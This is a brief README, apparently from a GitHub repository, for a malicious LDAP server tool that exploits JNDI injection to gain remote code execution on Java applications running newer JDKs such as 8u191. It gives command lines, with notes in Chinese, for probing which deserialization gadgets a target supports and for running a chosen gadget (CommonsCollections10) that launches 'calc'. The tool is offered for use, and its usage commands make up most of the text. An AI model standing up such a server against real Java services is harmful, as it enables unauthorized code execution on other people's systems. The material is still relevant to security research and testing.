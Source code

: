 # ldapserver

evil ldapserver while jndi injection rce with higher jdk ,such as jdk8u191

# how to use 
```
全量gadget:  (可用于探测支持的gadget)
java -jar ldapserver.jar -c "calc" -p 1389
指定gadget: (用于执行) 
java -jar ldapserver.jar -c "calc" -p 1389 -g CommonsCollections10

```

